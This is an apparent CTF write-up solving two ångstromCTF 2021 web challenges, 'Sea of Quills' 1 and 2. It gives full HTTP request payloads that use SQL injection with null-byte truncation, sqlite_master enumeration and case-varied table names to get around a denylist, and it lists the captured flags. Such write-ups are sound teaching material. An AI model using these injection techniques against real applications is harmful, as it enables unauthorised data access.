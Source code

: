 ångstromCTF 2021

# Sea of Quills
## 70 points · 372 solves

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](https://files.actf.co/c6131fafd681ef59ee5167822702986f813b0e3177f3f7c78f1790adaac92384/app.rb)
* * *

### Solution

After exploring the site we will understand that we can view the quills and do a search on them. But it is not yet clear what could be vulnerable. 

Let's take a loot at the source code.  

Note some things:
- sqlite3 as DBMS
- blacklist for the cols parameter
- lim and off parameters can only be integers

Obviously, we have to exploit cols parameter
But we can't specify this on the page so let's intercept the request with a burp and change it.
* * *
#### A little background: 
As I understand it, the author of the task wanted us to use routed sql injection. But I found unintended solution which I will tell about lower.
* * *
If we set the cols parameter as "*" we can get all columns from the current table. But what if we want to make a more complex query?

The first thing that came to my mind was to comment out the rest of the sql query. After some research and trying, I found the necessary payload. We need just to add a null byte at the end of requst:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 40

limit=123&offset=0&cols=* from quills%00
```
Next, we will find out the names of the table:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 54

limit=123&offset=0&cols=tbl_name from sqlite_master%00
```
And will get the flag from **flagtable**:
```http
POST /quills HTTP/1.1
Host: seaofquills.2021.chall.actf.co
Content-Length: 43

limit=123&offset=0&cols=* from flagtable%00
```
  
Flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`

***  

# Sea of Quills 2
## 160 points · 143 solves

A little bird told me my original quills store was vulnerable to illegal hacking! I've fixed [my store now](https://seaofquills-two.2021.chall.actf.co/) though, and now it should be impossible to hack!

[Source](https://files.actf.co/990a2a395969dc5a5e6b9db4bd49b33af90ca0b0056b9a1a3bd2ab38ff4dd56b/app.rb)
* * *

### Solution

The task was almost the same as the previous one. But there were some changes:
- the "flag" value was added to the blacklist
- value of cols paramater must be below 25

Sqlite3 is not case-sensetive by default so using a payload with a null byte from first part of the task I checked the following request:
```http
POST /quills HTTP/1.1
Host: seaofquills-two.2021.chall.actf.co
Content-Length: 43

limit=123&offset=0&cols=* from FlaGTabLe%00
```
I just replaced some characters of the **flagtable** name with a different case and it worked!
 
Flag: `actf{the_time_we_have_spent_together_riding_through_this_english_denylist_c0776ee734497ca81cbd55ea}`
